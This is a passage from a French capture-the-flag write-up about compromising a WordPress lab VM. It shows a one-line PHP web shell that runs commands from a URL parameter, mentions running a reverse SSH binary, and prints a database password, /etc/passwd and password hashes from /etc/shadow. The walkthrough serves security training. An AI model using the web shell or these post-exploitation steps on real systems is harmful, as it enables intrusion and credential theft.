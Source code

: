 ```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

J'obtiens alors les droits de l'utilisateur système `daemon`.

J'upload et j'exécute un `reverse-sshx86` et je peux alors me connecter via le client SSH sur le port 31337 de la VM.

Je récupère la config du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'bitnami_wordpress');

/** MySQL database username */
define('DB_USER', 'bn_wordpress');

/** MySQL database password */
define('DB_PASSWORD', '33d8f95847');

/** MySQL hostname */
define('DB_HOST', 'localhost:3305');
```

Quand j'affiche le contenu de `/etc/passwd` j'ai une drole de surprise :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
--- snip ---
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
```

La description du CTF indiquait :

> The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification. :)

Sommes-nous arrivés à la fin ?

Je me rend compte aussi que `/etc/shadow` est lisible pour tous :

```
root:$6$If.Y9A3d$L1/qOTmhdbImaWb40Wit6A/wP5tY5Ia0LB9HvZvl1xAGFKGP5hm9aqwvFtDIRKJaWkN8cuqF6wMvjl1gxtoR7/:16483:0:99999:7:::
daemon:*:16483:0:99999:7:::
bin:*:16483:0:99999:7:::
--- snip ---
user:$6$MuqQZq4i$t/lNztnPTqUCvKeO/vvHd9nVe3yRoES5fEguxxHnOf3jR/zUl0SFs825OM4MuCWlV7H/k2QCKiZ3zso.31Kk31:16483:0:99999:7:::
mysql:!:16483:0:99999:7:::
candycane:$6$gfTgfe6A$pAMHjwh3aQV1lFXtuNDZVYyEqxLWd957MSFvPiPaP5ioh7tPOwK2TxsexorYiB0zTiQWaaBxwOCTRCIVykhRa/:16483:0:99999:7:::
# YOU STOLE MY PASSWORD FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
```

